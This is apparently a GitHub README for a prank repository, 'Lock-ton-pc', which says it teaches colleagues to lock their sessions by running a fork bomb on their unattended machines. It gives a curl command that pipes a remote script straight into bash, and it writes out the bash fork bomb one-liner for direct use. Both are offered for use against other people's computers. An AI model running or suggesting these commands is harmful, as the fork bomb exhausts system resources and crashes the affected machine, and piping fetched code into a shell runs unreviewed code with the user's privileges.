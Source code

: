 # Lock-ton-pc
quelque script pour apprendre à ses collègues à fermer leur session.

## Forkbomb

Denial of service attack wherein a process continually replicates ifself to deplete available system recources, slowding down or crashing the system.

get the content and execute the script :

```
curl https://raw.githubusercontent.com/wagnerwave/Lock-ton-pc/master/forkbomb.sh | bash -

```

or excute on a terminal :

```
:(){ :|:& };:

```
